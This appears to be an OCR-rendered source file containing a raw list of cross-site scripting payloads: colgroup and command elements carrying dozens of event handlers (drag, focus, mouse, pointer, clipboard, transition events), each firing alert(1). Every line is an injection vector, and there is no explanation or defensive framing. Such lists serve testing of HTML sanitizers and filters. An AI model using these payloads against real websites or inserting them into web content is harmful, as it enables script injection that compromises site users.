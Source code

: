 <colgroup draggable="true" ondragend="alert(1)" style=display:block>test</colgroup>
<colgroup draggable="true" ondragenter="alert(1)" style=display:block>test</colgroup>
<colgroup draggable="true" ondragleave="alert(1)" style=display:block>test</colgroup>
<colgroup draggable="true" ondragstart="alert(1)" style=display:block>test</colgroup>
<colgroup id=x style="transition:outline 1s" ontransitionend=alert(1) tabindex=1></colgroup>
<colgroup id=x tabindex=1 onfocus=alert(1)></colgroup>
<colgroup id=x tabindex=1 onfocusin=alert(1)></colgroup>
<colgroup onafterscriptexecute=alert(1)><script>1</script>
<colgroup onbeforecopy="alert(1)" contenteditable>test</colgroup>
<colgroup onbeforecut="alert(1)" contenteditable>test</colgroup>
<colgroup onbeforescriptexecute=alert(1)><script>1</script>
<colgroup onblur=alert(1) id=x tabindex=1 style=display:block>test</colgroup><input value=clickme>
<colgroup onclick="alert(1)" style=display:block>test</colgroup>
<colgroup oncontextmenu="alert(1)" style=display:block>test</colgroup>
<colgroup oncopy=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
<colgroup oncut=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
<colgroup ondblclick="alert(1)" autofocus tabindex=1 style=display:block>test</colgroup>
<colgroup onfocusout=alert(1) id=x tabindex=1 style=display:block>test</colgroup><input value=clickme>
<colgroup onkeydown="alert(1)" contenteditable style=display:block>test</colgroup>
<colgroup onkeypress="alert(1)" contenteditable style=display:block>test</colgroup>
<colgroup onkeyup="alert(1)" contenteditable style=display:block>test</colgroup>
<colgroup onmousedown="alert(1)" style=display:block>test</colgroup>
<colgroup onmouseenter="alert(1)" style=display:block>test</colgroup>
<colgroup onmouseleave="alert(1)" style=display:block>test</colgroup>
<colgroup onmousemove="alert(1)" style=display:block>test</colgroup>
<colgroup onmouseout="alert(1)" style=display:block>test</colgroup>
<colgroup onmouseover="alert(1)" style=display:block>test</colgroup>
<colgroup onmouseup="alert(1)" style=display:block>test</colgroup>
<colgroup onmousewheel=alert(1) style=display:block>requires scrolling
<colgroup onpaste="alert(1)" contenteditable>test</colgroup>
<colgroup onpointerdown=alert(1) style=display:block>XSS</colgroup>
<colgroup onpointerenter=alert(1) style=display:block>XSS</colgroup>
<colgroup onpointerleave=alert(1) style=display:block>XSS</colgroup>
<colgroup onpointermove=alert(1) style=display:block>XSS</colgroup>
<colgroup onpointerout=alert(1) style=display:block>XSS</colgroup>
<colgroup onpointerover=alert(1) style=display:block>XSS</colgroup>
<colgroup onpointerrawupdate=alert(1) style=display:block>XSS</colgroup>
<colgroup onpointerup=alert(1) style=display:block>XSS</colgroup>
<command draggable="true" ondrag="alert(1)" style=display:block>test</command>
<command draggable="true" ondragend="alert(1)" style=display:block>test</command>
<command draggable="true" ondragenter="alert(1)" style=display:block>test</command>
<command draggable="true" ondragleave="alert(1)" style=display:block>test</command>
<command draggable="true" ondragstart="alert(1)" style=display:block>test</command>
<command id=x style="transition:outline 1s" ontransitionend=alert(1) tabindex=1></command>
<command id=x tabindex=1 onfocus=alert(1)></command>
<command id=x tabindex=1 onfocusin=alert(1)></command>
<command onafterscriptexecute=alert(1)><script>1</script>
<command onbeforecopy="alert(1)" contenteditable>test</command>
<command onbeforecut="alert(1)" contenteditable>test</command>
<command onbeforescriptexecute=alert(1)><script>1</script>
<command onblur=alert(1) id=x tabindex=1 style=display:block>test</command><input value=clickme>
<command onclick="alert(1)" style=display:block>test</command>
<command oncontextmenu="alert(1)" style=display:block>test</command>
<command oncopy=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
<command oncut=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
<command ondblclick="alert(1)" autofocus tabindex=1 style=display:block>test</command>
<command onfocusout=alert(1) id=x tabindex=1 style=display:block>test</command><input value=clickme>
<command onkeydown="alert(1)" contenteditable style=display:block>test</command>
<command onkeypress="alert(1)" contenteditable style=display:block>test</command>
<command onkeyup="alert(1)" contenteditable style=display:block>test</command>
<command onmousedown="alert(1)" style=display:block>test</command>
<command onmouseenter="alert(1)" style=display:block>test</command>